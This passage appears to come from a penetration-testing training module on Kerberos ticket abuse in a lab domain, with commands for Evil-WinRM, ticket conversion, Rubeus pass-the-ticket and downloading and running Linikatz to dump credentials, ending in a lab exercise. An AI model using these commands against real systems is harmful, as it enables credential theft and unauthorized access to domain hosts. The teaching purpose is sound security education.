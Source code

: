 **Using Evil-WinRM with Kerberos**

```shell-session
$ proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

### Miscellaneous

If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) to convert them.

**Impacket Ticket Converter**

```shell-session
$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

**Importing Converted Ticket into Windows Session with Rubeus**

```cmd-session
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```

### Linikatz

[Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team just like mimikatz.

```shell-session
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
```

> Just like mimikatz we need to have root access in order to extract all credentials.

## Assessment

Connect to the target machine using SSH to the port TCP/2222 and the provided credentials. Read the flag in David's home directory.
